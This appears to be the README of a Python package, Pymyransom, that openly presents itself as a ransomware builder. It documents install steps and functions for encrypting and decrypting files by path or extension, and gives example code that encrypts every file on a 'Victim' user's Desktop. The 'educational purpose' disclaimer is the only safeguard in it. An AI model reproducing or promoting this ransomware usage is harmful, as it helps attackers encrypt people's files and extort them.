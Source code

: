 # Pymyransom

## New in v0.4
Updated description

## Before Introducing

PYMYRANSOM **ONLY** CAN BE USED FOR EDUCATIONAL PURPOSE!!!

## What is Pymyransom?

Pymyransom is inspired by https://github.com/marcosValle/RansPy/blob/master/enc.py, I changed this code for making Ransomwares.

## How to install Pymyransom?

To install pymyransom, please type
```pip install pymyransom```.

## How to use Pymyransom?

### makeMyRansomware

Usage : ransomware_name = makeMyRansomware(your_extension, key, username, passFile)

your_extension = ".Example" : Encryption Extension
key = b'keyfor16bytes123' : Binary key for encryption
username=getpass.getuser() : PC's username
passFile=None : Pass a specific file

### Encryptor

Usage : ransomware_name.Encryptor(startPath)
startPath : Path to encrypt

### Decryptor

Usage : ransomware_name.Decryptor(startPath)

startPath : Path to decrypt

### Encrypt_Some_Ext

Usage : ransomware_name.Encrypt_Some_Ext(startPath)
Encrypts only extensions in extlist.

startPath : Path to encrypt some extensions
extlist=[".txt", ".mp3"] : Extensions for encryption

### Decrypt_Some_Ext

Usage : ransomware_name.Decrypt_Some_Ext(startPath)
Decrypts only extensions in extlist.

startPath : Path to encrypt some extensions
extlist=[".txt", ".mp3"] : Extensions for encryption

### Example Code

```python
import pymyransom
Victim = pymyransom.makeMyRansomware(your_extension=".Example")
startpath = 'c:\\Users\\'+Victim.username+'\\Desktop\\**' #Used glob to encrypt all files
Victim.Encryptor(startpath)
```

## Special Thanks
https://github.com/marcosValle/, https://github.com/kevin5871/, And you!

